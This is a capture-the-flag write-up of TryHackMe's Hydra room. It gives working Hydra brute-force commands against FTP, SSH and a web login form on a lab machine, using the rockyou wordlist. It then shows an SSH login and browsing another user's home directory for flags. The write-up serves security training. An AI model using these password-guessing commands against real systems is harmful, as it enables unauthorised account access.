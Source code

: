 # Hydra TryHackMe Writeup

Hatami Ra'is Bukhari (Althemier)

[Hydra Room](https://tryhackme.com/room/hydra)

# [Task 1] Hydra Introduction

No answer needed

# [Task 2] Using Hydra

> For more detail check `man hydra` 

## Example command


```
hydra -l user -P passlist.txt ftp://10.10.14.211
```

* `-l` use if we have the username, in this case its **user**

* `-P` use list of password from wordlist like `rockyou.txt` or in this case `passlist.txt`

* `ftp://` To where

## SSH

```
hydra -l <username> -P <full path to pass> 10.10.14.211 -t 4 ssh
```

* `-l` use if we have the username

* `-P` use list of password from wordlist like `rockyou.txt` 

* `t` specifies the number of threads

## Post Web Form

```
hydra -l <username> -P <wordlist> 10.10.14.211 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

* `-l` use if we have the username

* `-P` use list of password from wordlist like `rockyou.txt` 

* `hhtp-post-form` telling hydra its form(post) like login page

* `/login url` URL where login page is, ex `ayaya.com/login`

* `:username` form field where the username is entered. 

* `^USER^` Tell Hydra to use the username

* `password` form field where the password is entered

* `^PASS^` Tell Hydra to use the password list from wordlist

* `F=incorrect` If this word appears on the page, its incorrect

* `-V` Verbose output for every attempt. Dont use this if you just want the result


## 1. Use Hydra to bruteforce molly's web password. What is flag 1?

> **HINT**

> If you've tried more than 30 passwords from RockYou.txt, you are doing something wrong!

```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.14.211 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

While waiting the scan to finished, Im continue to finish assignment 2

## 2. Use Hydra to bruteforce molly's SSH password. What is flag 2?

```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.14.211 -t 4 ssh
```

Found the password, shh into the machine

```
ssh molly@10.10.14.211
```

Simply use `ls`, there will be `flag2.txt`. `cat flag2.txt` and thats the answer



**BUT**

Since the IP for the website and machine is the same, maybe **just** maybe i can find the password from the machine it self. And I did. How?

* `cd ..` and `ls` will show you theres 2 directory

```
molly  ubuntu
``` 

* `molly` is where we are before, then what is `ubuntu` doing there?

* `cd ubuntu` and `ls` will lead you to
```
elf  nodesource_setup.sh
```

* elf is a directory, so `cd elf` and simple `ls` will show you
```
hydra-challenge  node_modules  package.json  package-lock.json  server.js  views
```

* `cat hydra-challenge` will give you the flag for assignment 1.

> My first hydra is pass 30 password as hint suggested, so i sort of failed.
